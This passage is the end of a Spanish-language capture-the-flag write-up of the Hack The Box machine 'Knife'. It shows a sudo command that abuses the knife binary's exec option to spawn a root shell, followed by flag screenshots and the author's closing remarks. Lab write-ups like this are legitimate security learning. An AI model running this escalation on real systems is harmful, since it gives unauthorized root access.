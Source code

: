 ```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'system("/bin/bash")'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347bash_knifeexec_bash.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listoneeeeeeeeeeeeeeeeeeees! Estamos dentro del sistema como el usuario **root** (: 

Vistaziemos las flags :o

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

ey, emho telminao'

...

Linda máquina, me gusto que es real-life, un **CVE** y una aplicación que por default tiene la opción de ejecutar comandos. 

Lo raro es que esta rateada super bajo y no me parecio que estuviera mal, como máquina para empezar esta muuuuuuuuuy bien.

Bueno, por ahora no es más que agradecimiento hacia la luna y el atardecer 😬 Nos leeremos en otra ocasión yyyyyyyyyyy como siempre, a seguir rompiendo tooooooooodo!!